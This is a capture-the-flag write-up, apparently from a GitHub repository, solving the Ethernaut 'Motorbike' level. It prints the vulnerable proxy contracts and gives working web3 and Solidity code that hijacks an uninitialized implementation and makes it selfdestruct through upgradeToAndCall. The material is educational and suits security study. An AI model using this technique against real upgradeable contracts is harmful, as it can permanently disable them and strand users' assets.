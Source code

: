 # Level 25: Motorbike

This is the level 24 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity
- [selfdestruct](https://docs.soliditylang.org/en/v0.6.0/units-and-global-variables.html#contract-related) function in Solidity
- [Proxy Patterns](https://blog.openzeppelin.com/proxy-patterns/)
- [UUPS Proxies](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786)
- [OpenZeppelin Proxies](https://docs.openzeppelin.com/contracts/4.x/api/proxy)
- [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract

## Hack

Given contracts:
```solidity

// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }
    
    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

`player` has to make the proxy (`Motorbike`) unusable by destroying the implementation/logic contract (`Engine`) through `selfdestruct`.

As you can see current `Engine` implementation has no `selfdestruct` logic anywhere. So, we can't call `selfdestruct` with current implementation anyway. But, since it is a logic/implementation contract of proxy pattern, it can be upgraded to a new contract that has the `selfdestruct` in it.

`upgradeToAndCall` method is at our disposal for upgrading to a new contract address, but it has an authorization check such that only the `upgrader` address can call it. So, `player` has to somehow take over as `upgrader`.

The key thing to keep in mind here is that any storage variables defined in the logic contract i.e. `Engine` is actually stored in the proxy's (`Motorbike`'s) storage and not actually `Engine`. Proxy is the storage layer here which delegates _only_ the logic to logic/implementation contract (logic layer). 

What if we did try to write and read in the context of `Engine` directly, instead of going through proxy? We'll need address of `Engine` first. This address is at storage slot `_IMPLEMENTATION_SLOT` of `Motorbike`. Let's read it:

```javascript
implAddr = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')

// Output: '0x000000000000000000000000<20-byte-implementation-contract-address>'
```
This yields a 32 byte value (each slot is 32 byte). Remove padding of `0`s to get 20 byte `address`:
```javascript
implAddr = '0x' + implAddr.slice(-40)

// Output: '0x<20-byte-implementation-contract-address>'
```

Now, if we sent a transaction directly to `initialize` of `Engine` rather than going through proxy, the code will run in `Engine`'s context rather than proxy's. That means the storage variables - `initialized`, `initializing` (inherited from `Initializable`), `upgrader` etc. will be read from `Engine`'s storage slots. And these variables will most likely will contain their default values - `false`, `false`, `0x0` respectively because `Engine` was supposed to be only the logic layer, not storage.
And since `initialized` will be equal to `false` (default for `bool`) in context of `Engine` the `initializer` modifier on `initialize` method will pass!

Call the `initialize` at `Engine`'s address i.e. at `implAddr`:
```javascript
initializeData = web3.eth.abi.encodeFunctionSignature("initialize()")

await web3.eth.sendTransaction({ from: player, to: implAddr, data: initializeData })
```

Alright, invoking `initialize` method must've now set `player` as `upgrader`. Verify by:
```javascript
upgraderData = web3.eth.abi.encodeFunctionSignature("upgrader()")

await web3.eth.call({from: player, to: implAddr, data: upgraderData}).then(v => '0x' + v.slice(-40).toLowerCase()) === player.toLowerCase()

// Output: true
```

So, `player` is now eligible to upgrade the implementation contract now through `upgradeToAndCall` method. Let's create the following malicious contract - `BombEngine` in Remix:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract BombEngine {
    function explode() public {
        selfdestruct(address(0));
    }
}
```
Deploy `BombEngine` (on same network) and copy it's address.

If we set the new implementation through `upgradeToAndCall`, passing `BombEngine` address and encoding of it's `explode` method as params, the existing `Engine` would destroy itself. This is because `_upgradeToAndCall` delegates a call to the given new implementation address with provided `data` param. And since `delegatecall` is context preserving, the `selfdestruct` of `explode` method would run in context of `Engine`. Thus `Engine` is destroyed.

Upgrade `Engine` to `BombEngine`. First set up function data of `upgradeToAndCall` to call at `implAddress`:
```javascript
bombAddr = '<BombEngine-instance-address>'
explodeData = web3.eth.abi.encodeFunctionSignature("explode()")

upgradeSignature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}

upgradeParams = [bombAddr, explodeData]

upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, upgradeParams)
```

Now call `upgradeToAndCall` at `implAddr`:
```javascript
await web3.eth.sendTransaction({from: player, to: implAddr, data: upgradeData})
```

Boom! The `Engine` is destroyed! The `Motorbike` is now useless. `Motorbike` cannot even be repaired now because all the upgrade logic was in the logic contract which is now destroyed.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

